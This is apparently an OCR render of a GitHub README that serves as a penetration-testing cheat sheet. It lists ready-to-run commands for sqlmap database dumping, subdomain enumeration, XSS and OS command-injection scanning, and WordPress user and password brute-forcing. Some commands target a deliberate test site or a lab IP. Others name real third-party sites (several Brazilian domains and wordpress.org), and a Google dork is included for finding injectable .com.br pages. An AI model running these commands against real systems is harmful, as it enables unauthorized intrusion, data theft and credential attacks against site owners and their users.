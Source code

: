 # sqlmap

# parameter finding google dork

    site: .com.br inurl .php id=

# auto crawling command

    sqlmap -u "http://testphp.vulnweb.com/" --crawl 3 --batch --threads 5 --random-agent --risk 1 --level 1

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dump-all --batch --threads 7

# Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch --threads 5

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch --threads 5

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch --threads 5

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname --dump --batch --threads 5

## Login page brute-forcing

    sqlmap -u "http://testphp.vulnweb.com/login.php" --forms

    sqlmap -u "http://testphp.vulnweb.com/userinfo.php" --data="uname=abd&pass=abc&login=submit" --dbs

<h1 align="center">Sub Domain Enumeration</h1>

### Sub Domain finding using assetfinder+httpx
    assetfinder -subs-only faculdadeunica.com.br | httpx -random-agent -mc 200,302 -silent -server -tech-detect -status-code | tee path/validsubDomains.txt

<h1 align="center">CMS Detector</h1>

### auto Detecting
    cmseek -u https://wordpress.org --batch | tee 'path/cmsDetector.txt'

<h1 align="center">Gospider</h1>

### Paramiter finding
    gospider -s "https://www.farmasilva.com.br" --no-redirect -o gospider.txt

<h1 align="center">XSStrike, xss finder</h1>

### xss finding
    xsstrike -u "https://www.farmasilva.com.br/search?search_query=query" -f /usr/share/wordlists/SecLists/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

<h1 align="center">XSpear, xss finder</h1>

### xss finding
    XSpear -u 'http://testphp.vulnweb.com/listproducts.php?cat=123' -v 2 -o XSpear.txt

<h1 align="center">commix, xss finder</h1>

### os command injection finding
    commix -u 'http://192.168.31.177/vulnerabilities/exec/#' --cookie="security=low; PHPSESSID=hcjrgadiie5f40vup73ehe0fu7; security=low" --data="ip=INJECT_HERE&Submit=Submit"

<h1 align="center">wpscan</h1>

### Vulnerable plugin, themes, users
    wpscan --url https://wordpress.org -e vp,vt,u -o scanned.txt

### Vulnerable plugins, All plugins, Vulnerable themes, All themes, Timthumbs, Config backups, Db exports, User, Media, Bypassing Simple WAFs
    wpscan --url https://wordpress.org -e vp,vt,tt,cb,dbe,u,m --random-user-agent -v -o scanned.txt

### Password brute force attack
    wpscan --url https://wordpress.org -e u --passwords /usr/share/wordlists/rockyou.txt -o scanned.txt

<h1 align="center">sqlmap</h1>

### auto crawling
    sqlmap -u https://wordpress.org -crawl=3 --batch -o sqlmap.txt
